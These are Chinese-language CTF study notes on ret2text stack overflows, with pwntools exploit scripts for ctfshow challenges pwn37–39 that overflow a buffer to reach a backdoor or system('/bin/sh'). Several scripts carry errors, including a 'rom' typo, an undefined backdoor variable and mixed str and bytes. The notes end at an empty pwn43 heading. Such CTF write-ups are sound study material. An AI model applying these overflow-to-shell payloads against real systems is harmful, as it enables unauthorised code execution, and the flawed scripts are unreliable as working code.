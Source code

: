 ## ctf pwn ret2text

### 基本概念

栈：是存储程序执行期间的本地变量和函数的参数，从高地址向低地址生长

堆：动态内存分配的区域，通过malloc，new，free和delete等函数的管理

数据区：存储在源代码中有预定义值的全局变量和静态变量

代码区：存储只读的程序执行代码，即机器指令

未初始化变量区：存储未被初始化的全局变量和今天变量

#### x86：

​	使用栈传输

#### amd64：

​	前6个参数存放在rdi,rsi,rdx,rcx,r8,r9寄存器中

​	第七个以后的数据放入栈中

---

### ret2test

主要的要点就是通过栈溢出来执行我们想要好的后门函数

#### 例题：ctfshow pwn37

![image-20241116132738455](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241116132738455.png)

![image-20241116132747938](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241116132747938.png)

而这里确认栈溢出的方法可以多种

可以使用gdb的动态调试同样也可以使用ide pro的静态分析

![image-20241116133026717](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241116133026717.png)

而这个用静态分析就可以了

可以发现我们只需要溢出0x12+4个函数

这里会有问题是+4是如何确定的这里我们就可以点金这个变量里面就可以明白了

![image-20241116133158311](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241116133158311.png)

这里你要从一个buf变量变成到一个可以读取的权限就要向下溢出到r因此要加4

因此exp：

```python
from pwn import *
context.log_level = 'debug'
#io = process('./pwn')
io = remote('pwn.challenge.ctf.show',28187)
#elf = ELF('pwn')
#backdoor = elf.sym['backdoor']
payload = 'A'*(0x12+4) + p32(backdoor)
io.sendline(payload)
io.recv()
io.interactive()
```

#### pwn38

但是与32位不同的是，这里需要考虑到堆栈平衡加上ret返回地址。因此exp：

```python
from pwn import *
context.log_level = 'debug'
#io = process('./pwn')
io = remote('pwn.challenge.ctf.show', 28140)
#elf = ELF('./pwn')
#backdoor = elf.sym['backdoor']
ret = 0x400287 # 0x0000000000400287 : ret
payload = b'a'*(0xA+8) + p64(ret) + p64(backdoor)
io.sendline(payload)
io.recv()
io.interactive()
```

---

同样这里也可以使用elf函数去本地文件中寻找地址

---

#### pwn39

这一题是system函数和/bin/sh的字符串的一个分离和组合的题目因此我们的思路是可以使用栈溢出的方法进行对system('/bin/sh')的一种构造

这里要注意system中也是需要一个返回值的因此我们这里要输入一个无关紧要的值来当他的放回地址在把/bin/sh这个字符串给他

因此exp:

```
rom pwn import *
context.log_level = 'debug'
#io = process('./pwn')
io = remote('pwn.challenge.ctf.show',28161)
elf = ELF('./pwn')
system = elf.sym['system']
bin_sh = 0x8048750
payload = 'a'*(0x12+4) + p32(system) + p32(0) + p32(bin_sh)
io.sendline(payload)
io.recv()
io.interactive()
```

这里使用ROPgadget可以对字符串进行查找命令为：

```bash
ROPgadget --binary pwn --string "/bin/sh"
```

这里有也可以进行字符串地址的查找

---

#### pwn40

这个可能要用ret2libc的问题

候补

---

#### pwn43